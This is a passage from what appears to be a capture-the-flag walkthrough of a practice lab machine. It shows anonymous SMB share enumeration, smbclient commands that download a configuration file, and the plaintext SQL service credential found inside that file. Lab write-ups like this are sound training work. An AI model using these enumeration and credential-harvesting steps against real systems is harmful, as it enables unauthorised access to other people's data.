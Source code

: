 The key points:
- The share listing was successful (you can see ADMIN$, C$, IPC$, and backups)
- The error only occurs when trying to list workgroups, which is not necessary for accessing shares
- You can still connect to and access the "backups" share despite these errors
- These messages often appear in penetration testing scenarios and can be safely ignored if your goal is to access the shares

This is valuable information because it shows you can proceed with connecting to the "backups" share even though the workgroup listing failed.

**Importance:** Discovering accessible SMB shares can provide valuable information and potential entry points into the target system.

### Task 3: What is the password identified in the file on the SMB share?

**Question:** What is the password identified in the file on the SMB share?

**Solution:**
```bash
smbclient -N \\\\{TARGET_IP}\\backups
get prod.dtsConfig
exit
cat prod.dtsConfig
```

These commands connect to the backups share, download the configuration file, and reveal credentials stored in plaintext:
- Username: ARCHETYPE\sql_svc
- Password: M3g4c0rp123

**Importance:** This demonstrates how improper credential storage can lead to security breaches, as sensitive information is often left in configuration files.

**Flag Captured:** None (credential discovery)

the contents of the file will look like this:

```bash
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
Key components:

1. **File Type**: This is a DTS (Data Transformation Services) configuration file, used by Microsoft SQL Server Integration Services (SSIS) for ETL (Extract, Transform, Load) operations.

2. **Generation Information**: The file was generated on January 20, 2019, as indicated by the `GeneratedDate` attribute.
